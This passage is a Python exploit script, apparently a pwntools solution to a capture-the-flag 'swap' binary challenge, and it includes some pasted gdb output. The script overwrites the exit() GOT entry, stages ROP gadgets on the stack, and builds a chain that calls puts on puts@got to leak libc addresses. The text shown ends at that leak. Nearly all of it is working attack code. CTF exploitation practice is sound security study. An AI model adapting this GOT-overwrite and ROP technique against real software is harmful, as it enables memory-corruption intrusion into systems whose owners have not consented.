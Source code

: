 ```python
swap_returns    0x600720 0x8c615ff004008e9
warning: Unable to access 16000 bytes of target memory at 0x7f2a34c76d02, halting search.
[stack]         0x7ffce0ccae08 0x4008e9
'''
exit_addr = 0x601018
stack_main_addr = rbp+40
Set(exit_addr, stack_main_addr) # exit() -> return main()
r.sendlineafter('Your choice: \n', '2') # swap


'''
0x00000000004008e7 : leave ; ret
0x0000000000400a53 : pop rdi ; ret
'''

#### save gadget in stack ####
start_main = 0x4008e9 # rbp-0x20
leaveret = 0x0004008e7 # rbp-0x18
Set(start_main, leaveret)
r.sendlineafter('Your choice: \n', '3') # return main()


popret = 0x000400a53  # rbp-0x60
leaveret = 0x0004008e7 # rbp-0x58
Set(popret, leaveret) # save gadget in stack 
r.sendlineafter('Your choice: \n', '3') # return main()


puts_plt = 0x004006A0 # rbp-0xa0
puts_got = 0x601028 # rbp-0x98
Set(puts_plt, puts_got)
r.sendlineafter('Your choice: \n', '3') # return main()



#### save 0x4008e9 in bss ####
bss_addr = 0x601d00
Set(exit_addr, bss_addr)
r.sendlineafter('Your choice: \n', '2') # swap


#### pop ret; puts@got.plt; puts@plt; main(); ####
chunk1_rip = rbp-0xb8
Set(chunk1_rip, rbp-0x60) # pop ret;
r.sendlineafter('Your choice: \n', '2') # swap

Set(chunk1_rip+0x8, rbp-0x98) # puts@got
r.sendlineafter('Your choice: \n', '2') # swap

Set(chunk1_rip+0x10, rbp-0xa0) # puts@plt
r.sendlineafter('Your choice: \n', '2') # swap

Set(chunk1_rip+0x18, bss_addr) # start_main
r.sendlineafter('Your choice: \n', '2') # swap


#### exit() -> leave; ret; ####
Set(rbp-0x58, exit_addr) # leave; ret;
r.sendlineafter('Your choice: \n', '2') # swap


#### leak libc ####
r.sendlineafter('Your choice: \n', '3') # call rop chain1
```